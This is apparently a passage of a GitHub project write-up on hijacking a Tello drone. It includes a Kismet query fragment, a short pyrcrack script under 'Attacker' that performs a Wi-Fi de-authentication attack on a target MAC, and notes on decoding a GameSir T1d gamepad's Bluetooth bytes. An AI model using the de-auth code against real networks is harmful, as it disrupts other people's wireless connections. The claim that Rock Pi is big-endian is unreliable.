 ```typescript
                    "kismet.device.base.channel",
                ],
            },
            ...(Option || []),
        },
    );
}
```

### Attacker

**pyrcrack** have a simple command to achieve de-auth attack:

```python
# Python
import asyncio

from pyrcrack import AireplayNg


async def deauth(interface, macaddr):
    async with AireplayNg() as aireplay:
        async for res in aireplay(interface, deauth=10, D=True, a=macaddr):
            await asyncio.sleep(1)

# Usage:
# asyncio.run(deauth('wlan_card_mon','kismet.device.base.macaddr'))
```

### Controller

Because the GameSir T1d cannot connect to the drone directly when hacked, I decided to use **TelloPy** as controller middleware to convert the T1d signal into a drone control command.

T1d uses Bluetooth protocol to transmit data; there are three Services, with the third receiving an unchanged byte stream and the second changing at random.
The byte stream received by a Service whose UUID begins with `00008651` changes on a regular basis.

When T1d on idle, the value received by the first Service is always been `C9-C6-86-A1-00-DB-B9-03-01-01-01-0B-01-E1-07-07-06-10-1E-56`.

The first two Bytes are always `A1-C5` when there is action.

As a result, the first two bytes can be used to determine the state of the remote control.

> Notice: Rock Pi is Big-Endian, you will need change the hex value `A1-C5` to `C5-A1`.

The last byte is always self-incrementing when T1d status on `C5-A1`.

When you press the button, the byte will increase by 2 until `0xFF`, then return to `0x00`. This is used to keep track of how many times the button is pressed.

Bytes 10-13 represent the state of the pressed button, and each button on the handle corresponds to one bit. In fact, as long as these bytes are read out one by one, they can correspond to the keys.

For stickers, bytes 3-7 represent the joystick's state. It took some time to figure out which joystick corresponded to which bytes at first. Later, I discovered that it was actually quite simple to guess. A total of 5 bytes, 2 joysticks in a total of 4 directions, resulting in 10bit per direction.
